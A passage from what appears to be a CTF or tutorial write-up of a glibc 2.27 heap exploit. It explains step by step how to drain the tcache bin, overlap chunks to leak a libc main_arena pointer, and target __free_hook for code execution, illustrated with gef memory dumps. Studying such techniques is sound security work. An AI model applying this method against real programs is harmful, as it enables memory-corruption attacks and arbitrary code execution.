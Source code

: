 ```c
...
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- chunk C
0x55a7bc2544b0: 0x4343434343434343      0x4343434343434343
0x55a7bc2544c0: 0x4343434343434343      0x4343434343434343
...
```

#### Step 7: **Empty the 0x128 tcache bin in order to use the unsorted bin**

* We must now empty the 0x128 sized tcache bin, so that any mallocs we make with size 0x128 will come out of the unsorted bin. We need to do this because the tcache bin takes priority over the unsorted bin for allocations.

* We do this simply by allocating 7 chunks of size 0x128, so that the 7 chunks in the tcache bin of size 0x128 are taken out.

#### Step 8: **Allocate chunk A back again to move the libc pointers into chunk B**

* We now add a chunk of size 0x128, which gets serviced by the unsorted bin. This will take a 0x128 size chunk out from the 0x350 sized chunk already in the unsorted bin and return it to us. In this case, this returns the chunk A that we initially allocated back to us.

* The key part is that it moves the libc pointers that were in chunk A's `fd` and `bk` down to chunk B, which we ***still*** have a pointer to. This is shown below:

```c
gef➤  x/150gx 0x55a7bc254250
0x55a7bc254250: 0x0000000000000000      0x0000000000000131 <- allocated 0x128 bytes to get chunk A
0x55a7bc254260: 0x00007f7e28fbefe0      0x00007f7e28fbefe0
...
0x55a7bc254380: 0x0000000000000130      0x0000000000000221 <- New consolidated chunk, where chunk B was (and still is)
0x55a7bc254390: 0x00007f7e28fbeca0      0x00007f7e28fbeca0 <- libc pointers moved down
0x55a7bc2543a0: 0x4242424242424242      0x4242424242424242
...
0x55a7bc254490: 0x4242424242424242      0x4242424242424242
0x55a7bc2544a0: 0x0000000000000250      0x0000000000000100 <- chunk C
0x55a7bc2544b0: 0x4343434343434343      0x4343434343434343
0x55a7bc2544c0: 0x4343434343434343      0x4343434343434343
```

#### Step 9: **Use the existing pointer to chunk B to read the libc address of the main_arena**

* Since we still have a pointer to chunk B, we simply use it to read chunk B's contents. In this case, it gives us our libc pointer leak, which we use to calculate the libc base address.

* With the base address, we also calculate the address of `__free_hook`, which is a function pointer that `free()` uses if it is set by the user. If we overwrite this function pointer with a pointer of our choosing, then the next time `free()` is called, it will also call the function pointed to by `__free_hook`, giving us code execution. Code found [here](https://github.com/lunaczp/glibc-2.27/blob/master/malloc/malloc.c#L3084) and shown below:
